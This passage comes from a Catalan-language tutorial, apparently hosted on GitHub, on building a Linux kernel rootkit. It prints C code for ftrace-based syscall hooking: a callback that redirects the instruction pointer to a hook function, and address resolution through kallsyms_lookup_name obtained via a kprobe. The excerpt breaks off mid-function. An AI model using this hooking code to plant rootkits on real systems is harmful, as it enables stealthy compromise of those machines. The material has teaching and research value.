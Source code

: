         void fh_remove_hooks(struct ftrace_hook *hooks, size_t count)
        {
            size_t i;

            for (i = 0 ; i < count ; i++)
                fh_remove_hook(&hooks[i]);
        }
    ```
    
    Aquesta implementació es basa en la implementació de **ftrace**. Ftrace és una eina de depuració que permet monitoritzar les crides a sistema. Per a més informació sobre ftrace podeu consultar [**aquest enllaç**](https://www.kernel.org/doc/html/latest/trace/ftrace.html). Registra la informació relacionada amb les crides a sistema i ens permet definir callbacks, entre altres funcions. Ens permet intervenir quan el registre '''rip'''contingui una adreça de memòria. Si establim que aquesta adreça és on comença la funcionalitat d'una crida a sistema, podem modificar perquè s'executi una altra funcionalitat.

    ```c
    struct ftrace_hook {
        const char *name;
        void *function;
        void *original;
        unsigned long address;
        struct ftrace_ops ops;
    };
    ```

    La part més important de hook és la callback. Aquesta funció està assignant al registre **IP** (següent instrucció a executar pel processador) a l'adreça *hook->function*. 

    ```c
    static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, 
        struct ftrace_ops *ops, struct pt_regs *regs)
    {
        struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);
        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
    }
    ```

    **notrace** és un tractament especial per marcar funcions prohibides per a fer seguiment amb *ptrace*. Es poden marcar funcions que s'utilitzen en el procés de seguiment. Evitem que el sistema es pengi si cridem de forma errònia a la vostra callback.
    
    També és molt important la funció **fh_resolve_hook_address()**. Aquesta funció utilitza ```kallsyms_lookup_name()``` (**linux/kallsyms.h>**) per cercar l'adreça de la crida a sistema real. Aquest valor s'emprarà tant per obtenir el codi original i guardar-lo en una altra adreça com per sobreescriu amb el nostre *rootkit*. Es guarda en l'atribut *address*.

    ```c
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);
